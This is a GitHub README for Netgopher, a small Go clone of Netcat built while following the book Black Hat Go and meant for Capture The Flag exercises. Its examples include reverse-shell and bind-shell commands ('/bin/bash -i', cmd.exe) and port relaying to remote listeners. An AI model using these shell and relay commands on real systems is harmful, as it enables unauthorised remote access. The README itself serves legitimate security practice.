 # Netgopher

![Example gif of relay usage](assets/relay.gif)

This is a basic Go implementation of (some functions of) Netcat and has been produced whilst working through the very-excellent NoStarch Press book [Black Hat Go](https://nostarch.com/blackhatgo) (which wins best cover too IMO). 

This implementation of Netcat is basic and has been built up piecemeal whilst following various book sections. Notably, this tool is TCP only, with limited features (no hexdump etc.). That said, Netgopher does most things I want Netcat to do during Capture The Flag exercises, including simple out of the box port realying.

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

# Installation

You can **but probably shouldn't**  get Netgopher easily with:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well this will only install ng in your local $GOPATH; additionally, the binary will be fairly large, compiled only for your OS. 

I wrote this version to use during CTFs meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/conneciton pair:

![Listener & connect example image](assets/basic.gif)

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
# Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# Feedback?
Issues, pulls, emails, tweets all welcome!
